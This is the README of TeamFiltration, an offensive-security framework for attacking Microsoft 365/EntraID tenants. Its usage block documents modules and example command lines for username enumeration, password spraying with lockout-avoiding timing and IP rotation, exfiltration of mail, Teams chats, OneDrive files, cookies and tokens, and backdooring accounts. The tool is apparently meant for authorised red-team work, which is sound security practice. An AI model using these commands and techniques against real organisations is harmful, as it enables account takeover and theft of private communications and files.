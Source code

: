 
 <p align="center">
 <img src="TFLogo.png" width="500px" alt="TeamFiltration" />
</p>

## TeamFiltration

TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 EntraID accounts.
See the [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/Home) wiki page for an introduction into how TeamFiltration works and the [Quick Start  Guide](https://github.com/Flangvik/TeamFiltration/wiki/Home#quick-start-guide) for how to get up and running!

This tool has been used internally at TrustedSec since January 2021 and was publicly released in my talk [Taking a Dump In The Cloud](https://youtu.be/GpZTQHLKelg) during DefCON30.

## Download
[You can download the latest precompiled release for Linux, Windows and MacOS ](https://github.com/Flangvik/TeamFiltration/releases/latest)   

**The releases are precompiled into a single application-dependent binary. The size go up, but you do not need NET or any other dependencies to run them.**

## Usage

```

  ╔╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╗
 ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╠╬╬╝╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╣                              │      ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╣                              ││      ╚╬╬╝╚ └╚╝╬╬╬╬╬╬
╬╬╬╬╣         ╔╦╦╬╬╬╬╬╬╦╦╗         ││       │        ╬╬╬╬╬
╬╬╬╬╣     ╔╬╬╬╝╝┘      ╚╝╝╬╬╬┐     ││       ││       └╬╬╬╬
╬╬╬╬┤    ╬╬╝╚╩╬╗╔          ╚╬╬╬    ││       ││        ╬╬╬╬
╬╬╬╬┤   ╬╝      ╚╬╬╗╗ ╔      ╚╬╗   ││      ├││        ╬╬╬╬
╬╬╬╬┤  ╬╬     ╔╗   ╚╬╬╬╬╬╬╦    ╬╬  │┌    ╔╬┤││       ╔╬╬╬╬
╬╬╬╬┤ ╔╬┤     ╬╬╬   ╬╬╬╬╬╬╬╬╝╝╝╬╬╗ ╠╬╬╬╬╬╬╬╬╬╗      ┌╬╬╬╬╬
╬╬╬╬┤ ╬╬┤     ╚╩┘   ╚╬╬╬╬╬╩    ╠╬╬ ╚╝╝╝╝╝╝╝╝╝╬╬╗╗╗╦╬╬╬╬╬╬╬
╬╬╬╬┤ ╬╬┤                      ╠╬╬ ││         ╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤  ╬╬   ╦╗            ╗╗   ╬╬  ││         │       ╬╬╬╬
╬╬╬╬┤  └╬┐   ╚╬╗╗      ╔╬╬╝   ╔╬┘  ││         │       ╬╬╬╬
╬╬╬╬┤   └╬╗    ╚╩╩╬╬╬╩╩╝╝   ╔╬╬    ││         │       ╬╬╬╬
╬╬╬╬┤    ╚╬╬╬╗           ┌╗╬╬╝┘    ││         │       ╬╬╬╬
╬╬╬╬┤       ╚╩╬╬╬╦╦╦╦╦╦╬╬╬╝╝       ││         │       ╬╬╬╬
╬╬╬╬┤            ╚╚╝╝╝╝            ││         │       ╬╬╬╬
╬╬╬╬┤                              ││         │    ╔╗╬╬╬╬╬
╬╬╬╬┤                              ││         ╬╦╦╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ││     ╔╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╬╬╬╗╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
 └╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╝
   ╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝

[❤] TeamFiltration V3.5.5 PUBLIC, created by @Flangvik at @TrustedSec
[+] Args parsed 
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --tokens              Override to target a (file with newline seperated JWT tokens|single JWT| , seperated JWT tokens) and perfom exfiltration
         --cookie-dump         Override to target a given account using it's refresh-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --teams-db            Exfiltrate cookies and authentication tokens from an exfiltrated Teams database
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit          Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens          Dump all gathered JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks's Azure Active Directory password brute-forcing technique when spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)

         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --exclude             Path to a list of emails to exclude from spraying
         --seasons-only        Password genersated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --shuffle-passwords   Shuffle the passwordlist before spraying
         --shuffle-users       Shuffle the target userlist before spraying
         --shuffle-regions     Shuffle FireProx regions when spraying

         --auto-exfil          If valid login is found, auto start the exfil module

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --jitter              Seconds between each individual authentication attempt. default=0
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)
         --validate-onedrive   Validate that the given o365 accounts using @nyxgeek OneDrive method (Recommended - Fast 300 e/s

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Proxy all outgoing HTTP requests through the proxy specified in the config

   Examples:

        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --cookie-dump C:\\CookieData.txt --all
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --aad 
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --tokens C:\\OutputTokens.txt --onedrive --owa
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --enum --validate-onedrive --domain example.com
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --database

```

## Credits

- [GitHub - KoenZomers/OneDriveAPI: API in .NET to communicate with OneDrive Personal and OneDrive for Business](https://github.com/KoenZomers/OneDriveAPI)
- [Research into Undocumented Behavior of Azure AD Refresh Tokens ](https://github.com/secureworks/family-of-client-ids-research) 
- [WS API Gateway management tool for creating on the fly HTTP pass-through proxies for unique IP rotation](https://github.com/ustayready/fireprox)
- Credits to [Ryan](https://twitter.com/detectdotdev) for validating and discussing my observations / questions!
- The entire [TrustedSec](https://TrustedSec.com) team for helping me polish this tool! 
- The OneDrive enumeration method found by @nyxgeek and script [onedrive_user_enum](https://github.com/nyxgeek/onedrive_user_enum)

